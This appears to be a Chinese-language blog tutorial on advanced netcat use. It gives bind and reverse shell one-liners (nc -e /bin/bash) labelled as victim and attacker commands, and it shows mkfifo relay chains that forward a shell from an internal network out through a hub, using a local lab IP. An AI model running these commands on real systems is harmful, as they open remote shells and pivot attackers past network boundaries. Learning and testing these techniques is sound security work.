 ```yaml
---
layout: single
author_profile: true
comments: true
title: nc高级用法
category: cybersecurity
tags: [Linux]
---
```


# nc实现后门
在[《reverse shell原理》](http://onestraw.net/linux/reverse-shell-principle)讲过用bash和python实现reverse shell的原理.  

### 1.正向

受害机：

	nc -l -p 3333 -e /bin/bash  

攻击机：

	nc targetip 3333  

有的版本不能同时使用-l和-p选项，这时只使用-p选项指定端口就可以建立监听。

### 2.反向

攻击机：

	nc -l -vv -p 3333   

受害机：

	nc -e /bin/bash targetip 3333  

# nc端口转发

### 1. listener-to-client模式

用于外网访问内网  

    $ mkfifo backpipe
    $ nc -l -p [localport] 0< backpipe | nc [target ip] [port] | tee backpipe

mkfifo命令是创建一个先进先出的管道文件，具体见后面。
nc命令分解一下，如下：

	nc -l -p [localport] 0< backpipe 

在本地localport端口监听TCP 连接，记为一个socket-1，socket-1从标准输入0读取数据并发送向TCP连接的另一端，socket-1从另一端收到的数据写到标准输出1，将backpipe文件内容重定向到标准输入0，通过管道将socket-1的收到的数据重定向到命令

	nc [target ip] [port]
	
作为其标准输入，这条命令也会建立一个连接，记为socket-2，socket-2将socket-1的输出作为输入发送出去，socket-2收到的数据通过管道重定向到下一条命令：

	tee backpipe

这条命令将socket-2收到的数据作为标准输入，写到标准输出1，这次是显示在终端了，同时写入到文件backpipe，这样socket-1又有数据要传送了。

### 2. listener-to-listener模式

用于一个内网机器和另一个内网机器通信  

	$ mkfifo backpipe
    $ nc -l -p [localport1] 0< backpipe | nc -l -p [localport2] | tee backpipe

### 3. client-to-client模式

	$ mkfifo backpipe
    $ nc [ip1] [port1] 0< backpipe | nc [ip2] [port2] | tee backpipe
	
	
# nc端口转发实例

ubuntu中打开三个终端模拟端口转发的3个，本地IP是192.168.232.128

### 1. 内网和外网

控制端：

	nc -l -p 3333

中转站：
	
	mkfifo hubpipe
	nc -l -p 2222 0<hubpipe|nc 192.168.232.128 3333|tee hubpipe
	
被控端：

	nc 192.168.232.128 2222 -e /bin/bash

### 2. 内网和内网

中转站：

	mkfifo hubpipe
	nc -l -p 2222 0<hubpipe|nc -l -p 3333|tee hubpipe
	
控制端：

	nc 192.168.232.128 3333

被控端：

	nc 192.168.232.128 2222 -e /bin/bash

# 注释

### 1. mkfifo

mkfifo命令用于创建一个FIFO（先进先出）方式的命名管道，具体用法如下

	Usage: mkfifo [OPTION]... NAME...
	Create named pipes (FIFOs) with the given NAMEs.
	Mandatory arguments to long options are mandatory for short options too.
	  -m, --mode=MODE    set file permission bits to MODE, not a=rw - umask
	  -Z, --context=CTX  set the SELinux security context of each NAME to CTX
		  --help     display this help and exit
		  --version  output version information and exit

### 2. tee

tee命令将标准输入的数据写入标准输出和tee命令指定的文件参数

	NAME
		   tee - read from standard input and write to standard output and files
	SYNOPSIS
		   tee [OPTION]... [FILE]...
	DESCRIPTION
		   Copy standard input to each FILE, and also to standard output.

### 3. 标准流

	stdin	0
	stdout	1
	stderr	2
